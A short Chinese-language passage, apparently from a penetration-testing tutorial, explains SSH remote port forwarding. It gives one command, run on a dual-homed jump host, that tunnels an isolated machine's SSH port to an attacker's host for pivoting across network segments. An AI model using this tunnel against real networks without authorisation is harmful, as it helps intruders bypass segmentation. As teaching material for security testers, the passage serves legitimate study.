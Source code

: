 [![](assets/1708095858-eeca8adabcfba49e4ccfbb3ec31ab049.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203517-cb751ee2-e8e5-1.png)

#### 远程端口转发

SSH 远程端口转发（Remote Port Forwarding）将远程计算机上的端口映射到本地计算机上的端口的技术。

1、跳板机（双网卡）上执行命令，利用 ssh 建立隧道，将 192.168.20.200 的 22 端口流量转发至攻击者主机 192.168.11.137 的 2222 端口上，隧道建立后，可通过攻击者主机的 2222 端口访问隔离网段 192.168.20.200 的 22 端口，实现跨网段访问。注意此处的 ssh 密码为攻击者 192.168.11.137 主机的 ssh 密码。

```plain
ssh -R [远程主机端口]: [目标主机]: [目标主机端口] [攻击者主机]
ssh -R 2222:192.168.20.200:22  root@192.168.11.137
```

[![](assets/1708095858-784a6543a9813c8e7a6c69178ceb2b0d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203525-d004f130-e8e5-1.png)

攻击者主机 2222 端口正在监听

[![](assets/1708095858-672a909700250f09458ed8f7cf8c1462.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203531-d36c926a-e8e5-1.png)
